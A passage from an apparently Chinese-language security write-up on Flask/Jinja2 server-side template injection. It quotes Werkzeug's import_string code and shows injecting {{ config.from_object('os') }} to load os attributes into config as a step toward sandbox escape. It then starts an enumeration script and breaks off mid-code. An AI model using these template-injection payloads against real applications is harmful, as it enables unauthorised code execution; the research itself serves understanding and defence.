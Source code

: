 ```
                raise
        else:
            return sys.modules[import_name]    

        module_name, obj_name = import_name.rsplit('.', 1)
        try:
            module = __import__(module_name, None, None, [obj_name])
        except ImportError:
            # support importing modules not yet set up by the parent module
            # (or package for that matter)
            module = import_string(module_name)    

        try:
            return getattr(module, obj_name)
        except AttributeError as e:
            raise ImportError(e)    

    except ImportError as e:
        if not silent:
            reraise(
                ImportStringError,
                ImportStringError(import_name, e),
                sys.exc_info()[2])

```

对于新加载的模块，`from_object`方法会将那些变量名全是大写的属性添加到`config`对象中。其中有趣的地方就是，添加到`config`对象的属性会保持原有的类型，这意味着通过`config`对象，我们可以从模板内容中调用添加的函数。为了证明这一点，我们使用SSTI漏洞注入`{{ config.items() }}`，可以看到当前的整个配置选项。

![](http://drops.javaweb.org/uploads/images/ded43a35613f33a4fd9633f469245e4b4bda2fb5.jpg)

再注入`{{ config.from_object('os') }}`，这下就会在`config`对象中添加那些在`os`库中变量名全是大写的属性。再次注入`{{ config.items() }}`，就可以发现新的配置选项。同样也需要注意这些配置选项的类型。

![](http://drops.javaweb.org/uploads/images/95483db32a64a11d360d0372913cc7532c9b7121.jpg)

现在通过SSTI漏洞，我们可以调用添加到`config`对象中的任何可调用对象。下一步就是寻找可导入模块的相关功能，再加以利用逃逸出模板沙盒。

以下的脚本复制了`from_object`和`import_string`的功能，并分析整个Python标准库中可导入的项目。

```
#!/usr/bin/env python    

from stdlib_list import stdlib_list
import argparse
import sys    

def import_string(import_name, silent=True):
    import_name = str(import_name).replace(':', '.')
    try:
        try:
            __import__(import_name)
        except ImportError:
            if '.' not in import_name:
                raise
        else:
            return sys.modules[import_name]    

        module_name, obj_name = import_name.rsplit('.', 1)
        try:
            module = __import__(module_name, None, None, [obj_name])
        except ImportError:
            # support importing modules not yet set up by the parent module
            # (or package for that matter)
            module = import_string(module_name)    
```